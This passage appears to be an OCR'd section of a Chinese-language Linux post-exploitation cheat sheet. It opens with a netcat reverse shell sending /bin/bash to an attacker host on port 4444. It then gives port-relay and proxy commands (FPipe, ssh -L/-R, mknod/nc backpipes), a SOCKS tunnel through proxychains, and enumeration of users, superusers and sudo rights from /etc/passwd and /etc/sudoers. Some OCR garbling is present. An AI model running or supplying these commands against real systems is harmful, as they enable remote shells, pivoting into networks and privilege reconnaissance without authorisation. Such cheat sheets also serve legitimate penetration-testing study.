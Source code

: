 ```

# 目标系统
nc -e /bin/bash attacker_ip 4444
```

### 如何端口转发？（端口重定向）

```
# rinetd

# http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch
# fpipe

# FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
#ssh

# ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]
ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port
#mknod

# mknod backpipe p ; nc -l -p [remote port] < backpipe  | nc [local IP] [local port] >backpipe
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.1.1.251 80 >backpipe    # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe    # Proxy (Port 80 to 8080)
mknod

backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc
localhost 80 | tee -a outflow & 1>backpipe    # Proxy monitor (Port 80 to 8080)
```

### 建立隧道可能吗？本地，远程发送命令

```
ssh -D 127.0.0.1:9050 -N [username]@[ip]
proxychains ifconfig
```

## 秘密信息和用户

### 你是谁？哪个id登录？谁已经登录？还有谁在这里？谁可以做什么呢？

```
id
who
w
last
cat /etc/passwd | cut -d:    # List of users
grep -v -E "^#" /etc/passwd | awk -F: &#039;$3 == 0 { print $1}'   # List of super users
awk -F: '($3 == "0") {print}&#039; /etc/passwd   # List of super users
cat /etc/sudoers
sudo -l
```
